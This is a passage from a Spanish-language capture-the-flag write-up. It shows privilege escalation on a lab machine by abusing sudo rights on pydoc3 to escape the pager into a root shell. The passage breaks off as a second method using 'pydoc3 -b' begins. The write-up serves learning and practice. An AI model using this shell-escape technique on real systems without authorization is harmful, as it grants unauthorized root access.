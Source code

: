 Muy bien, parece que sí nos metió al manual del **módulo os**.

Intentemos aplicar **Shell Escape**:

<p align="center">
<img src="/assets/images/THL-writeup-caldoAvecrem/Captura9.png">
</p>

```bash
caldo@CaldoPollo:~$ sudo /usr/bin/pydoc3 os
root@CaldoPollo:/home/caldo# whoami
root
root@CaldoPollo:/home/caldo#
```
Excelente, funcionó.

<br>

<h3 id="Privesc3">Forma 2: Escapando de Menu de Módulos de pydoc3</h3>

Otra forma que podemos aplicar **Shell Escape** es, usando el parámetro **b** y eligiendo un puerto random:
```bash
caldo@CaldoPollo:~$ sudo /usr/bin/pydoc3 -b 8080
```

Esto nos metió en un menú que nos muestra los módulos para **Python**:

<p align="center">